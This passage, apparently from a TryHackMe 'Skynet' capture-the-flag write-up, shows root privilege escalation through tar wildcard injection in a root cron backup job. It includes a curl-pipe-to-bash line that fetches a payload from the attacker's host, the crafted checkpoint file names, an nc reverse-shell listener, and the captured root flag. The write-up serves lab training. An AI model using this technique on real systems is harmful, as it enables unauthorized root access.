 Guess it will be run by crontab

```bash
www-data@skynet:/home/milesdyson$ cat /etc/crontab|grep backup
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

Ok, it will be run as root

It's not writeable

```bash
www-data@skynet:/home/milesdyson$ ls -l ./backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 ./backups/backup.sh
```

#### Privilege escalation using tar

Google  `linux tar privilege escalation`

- [Privilege Escalation Using Wildcard Injection | by Medusa](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
- [Tar Wildcard Injection PrivEsc - Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/)

 > [Linux Privilege Escalation: Wildcards with tar | by Ben Folland](https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

Now create a payload for privilege escalation.

```sh
cd /var/www/html
echo -e '#!/bin/bash\ncurl 10.11.19.145|bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

It will be executed by `./backups/backup.sh` as :

```bash
tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh shell.sh * 
```

Prepare reverse shell

```bash
┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ ln -s ~/scripts/www-revshell/index.html

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45550
bash: cannot set terminal process group (17857): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
root@skynet:/var/www/html#
```
